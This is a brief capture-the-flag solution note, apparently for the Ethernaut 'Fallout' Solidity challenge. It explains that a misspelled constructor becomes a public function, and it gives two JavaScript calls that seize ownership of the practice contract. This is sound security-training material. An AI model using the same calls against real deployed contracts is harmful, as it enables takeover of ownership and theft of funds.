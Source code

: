 # Day 2 - Fallout

Constructor is spelled wrongly so it becomes a regular function. In any case, you can't use the contract name as a constructor in solidity 0.5.0 and above.

```js
await contract.Fal1out({ value: 0.1234 });
await contract.sendAllocation(await contract.owner());
```
